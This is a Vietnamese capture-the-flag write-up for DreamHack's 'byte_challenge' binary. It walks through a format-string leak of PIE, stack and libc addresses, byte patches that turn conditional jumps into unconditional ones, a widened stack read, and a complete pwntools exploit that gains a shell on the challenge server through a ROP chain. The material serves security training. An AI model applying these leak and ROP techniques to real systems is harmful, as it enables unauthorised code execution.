








# byte_challenge---Write-up-----DreamHack
Hướng dẫn cách giải bài byte_challenge cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 22/1/2026

## 1.Mục tiêu cần làm
Đầu tiên xem các lớp bảo vệ có gì



No canary, và full các lớp bảo vệ. Nó không quan trọng lắm đâu vì tí nữa bài sẽ cho mình chọn 1 vùng có quyền RWX. Giờ bắt đầu đọc code thôi. Ta chỉ cần chú ý các hàm chính sau đây.

```C
int sub_13DA()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("What`s your name?");
  fflush(stdout);
  read(0, buf, 0x3FuLL);
  return printf(buf);                // lỗi Format String
}
```

```C
int sub_12F6()
{
  __int64 v1; // [rsp+8h] [rbp-8h]

  puts("\nEnter Address: ");
  fflush(stdout);
  __isoc99_scanf("%lx %lx", &addr, &len);
  v1 = sysconf(30);
  addr = (void *)(-v1 & (unsigned __int64)addr);
  len = (len + v1 - 1) & -v1;
  if ( mprotect(addr, len, 7) < 0 )
    sub_12D0("mprotect");
  return puts("[+] Success");
}
```

Tại đây chương trình sẽ cấp quyền RWX cho trang nhớ của địa chỉ nhập vào, và len chính là độ dài trang nhớ được cấp phát quyền, được làm tròn lên theo 0x1000 x2000 ...

```C
int sub_1474()
{
  puts("[*] Stage 1");
  if ( (unsigned int)sub_142E(&unk_4010) != 2021931545 )
  {
    puts("Stage 1 FAIL");
    exit(1);
  }
  return puts("Stage 1 OK!");
}
```

```C
int sub_150F()
{
  puts("[*] Stage 2");
  if ( !(unsigned int)sub_14CC() )
  {
    puts("Stage 2 FAIL");
    exit(1);
  }
  return puts("Stage 2 OK!");
}
```

```C
int sub_155A()
{
  __int64 i; // [rsp+0h] [rbp-10h]
  char v2; // [rsp+Fh] [rbp-1h]

  puts("[*] Stage 3");
  v2 = 90;
  for ( i = 0LL; s1[i]; ++i )
  {
    s1[i] ^= v2;
    v2 += 19;
  }
  if ( strcmp(s1, "Stage 3 OK!\n") )
  {
    puts("Stage 3 FAIL");
    exit(1);
  }
  return puts("Stage 3 OK!");
}
```

```C
ssize_t sub_160D()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("[*] Stage 4");
  return read(0, buf, 64uLL);
}
```

Các stage 1 2 3 nó có khối lệnh điều kiện, nếu sai thì sẽ exit chương trình. Nhưng chúng ta đã được cấp phép RWX rồi nên ta có thể đổi các byte ở các lệnh if để jump thẳng qua lệnh exit luôn, không quan tâm đến điều kiện. Sau đó ta sẽ sửa độ lớn byte có thể nhập vào ở stage 4 và thực thi **Buffer Overflow** để chèn ROPchain vào RIP của main và thực thi nó. Ok bắt đầu thôi !

## 2. Cách thực thi
Trước tiên các bạn hãy build dockerfile ra, lấy file libc và dùng pwninit để patched file này sao cho giống offset trên server. Mình sẽ dùng file đã patched để chỉ cho các bạn.

Đầu tiên là lỗi **Format String**, mình sẽ dùng nó để in ra Leak libc, Binary. Mở gdb lên và đặt breakpoint ở chỗ read khúc nhập tên, vì file này bị mã hóa nên các bạn không xài được tên hàm đâu. Sử dụng cái số sau `sub_xxxx` + PIE base ở vmmap là ra được vị trí ở đó. Sau đó hãy gõ `x/i địa chỉ`.



Đặt breakpoint sau read và sau đó chạy để xem stack như nào.



Ta thấy được leak libc nằm ở `0x7ffff7dba000` và leak binary nằm ở `0x0000555555555641`.



Sau khi có được Binary và libc rồi thì hãy tạo ROPchain và nhập vùng thực thi vào thôi.

```Python
p.sendafter(b'What`s your name?', b'%11$p.%14$p.%21$p')

p.recvuntil(b'0x')
leak_pie = int(p.recv(12), 16)

p.recvuntil(b'0x')
leak_stack = int(p.recv(12), 16)

p.recvuntil(b'0x')
leak_libc = int(p.recv(12), 16)

log.success(f'Leak PIE : {hex(leak_pie)}')
log.success(f'leak stack : {hex(leak_stack)}')
log.success(f'Leak libc : {hex(leak_libc)}')

stack = leak_stack - 0x70
pie = leak_pie - 0x1641
libc_base = leak_libc - 0x29d90
log.success(f'PIE : {hex(pie)}')
log.success(f'stack : {hex(stack)}')
log.success(f'libc : {hex(libc_base)}')

p.sendlineafter(b"Enter Address:", f"{hex(pie)} 0x2000")

pop_rdi = libc_base + 0x2a3e5
ret = libc_base + 0x29139
system = libc_base + 0x50d70
binsh = libc_base + 0x1d8678
```

Ok đã xong khâu chuẩn bị, giờ bắt tay vô băm phần khó nhất nè. Giờ ta phải tìm địa chỉ của các lệnh if trong 3 hàm stage 1 2 3.



Stage 1 lệnh if ở `0x55555555549f`.



Stage 2 lệnh if ở `0x55555555552d`.



Stage 3 lệnh if ở `0x5555555555e0`

Giờ ta sẽ thay tất cả đuôi thành `0xeb`, nó sẽ biến lệnh `JE` và `JNE` thành `JMP`, tức là nó sẽ nhảy thẳng đến đích bất kể điều kiện đúng hay sai.

Giờ ta sẽ thay đổi số lượng byte nhập vào ở stage 4 từ 64 byte thành 36 + 18 + 201 aka `0xff` byte. Quá nhiều để ta ghi đè tới RIP và thay nó bằng ROPchain.



Ta sẽ thấy ở `0x55555555562c` nó là lệnh khởi tạo 64 byte để nhập vô cho buf, để thay đổi 64 thành 255, ta sẽ thay đổi ở vị trí `0x55555555562d`. Vì sao lại là `562d` mà không phải `562c` ? Vì `562c` là lệnh mov edx, còn `562d` là `0x40`.

```Python
def patch(offset, value):
    p.sendlineafter(b"(idx):", str(offset))
    p.sendlineafter(b"(val):", str(value))

patch(0x149f, 0xeb)
patch(0x152d, 0xeb)
patch(0x15e0, 0xeb)
patch(0x162d, 0xff)
```

Ta lấy số 1 ở đầu vì khi nhập `idx`, nó sẽ lấy vị trí PIE + offset nên ta sẽ xài offset tới vị trí đó. Vậy là xong, ta chỉ cần nhập cái payload mà ta chuẩn bị sẵn vào là đè RIP bằng ROPchain là xong.

```Python
payload = b'A' * 64
payload += b'B' * 8
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

p.sendafter(b'[*] Stage 4', payload)
```

Bài này khá rối rắm vì code khá dài và lâu ở chỗ tìm offset tới từng stage. Nhưng cũng không quá khó, mình đánh giá bài này 18 trên thang 36 🐧. Các bạn cho mình 1 star để ủng hộ mình ra write up mới nha 🐧. Gud luck my fen.


## 3. Exploit
```Python
from pwn import *

# p = process('./prob_patched')
p = remote('host3.dreamhack.games', 21044)
e = ELF('./prob')
libc = ELF('./libc.so.6')

p.sendafter(b'What`s your name?', b'%11$p.%14$p.%21$p')

p.recvuntil(b'0x')
leak_pie = int(p.recv(12), 16)

p.recvuntil(b'0x')
leak_stack = int(p.recv(12), 16)

p.recvuntil(b'0x')
leak_libc = int(p.recv(12), 16)

log.success(f'Leak PIE : {hex(leak_pie)}')
log.success(f'leak stack : {hex(leak_stack)}')
log.success(f'Leak libc : {hex(leak_libc)}')

stack = leak_stack - 0x70
pie = leak_pie - 0x1641
libc_base = leak_libc - 0x29d90
log.success(f'PIE : {hex(pie)}')
log.success(f'stack : {hex(stack)}')
log.success(f'libc : {hex(libc_base)}')

p.sendlineafter(b"Enter Address:", f"{hex(pie)} 0x2000")

def patch(offset, value):
    p.sendlineafter(b"(idx):", str(offset))
    p.sendlineafter(b"(val):", str(value))

patch(0x149f, 0xeb)
patch(0x152d, 0xeb)
patch(0x15e0, 0xeb)
patch(0x162d, 0xff)

pop_rdi = libc_base + 0x2a3e5
ret = libc_base + 0x29139
system = libc_base + 0x50d70
binsh = libc_base + 0x1d8678

payload = b'A' * 64
payload += b'B' * 8
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

p.sendafter(b'[*] Stage 4', payload)

p.interactive()
```
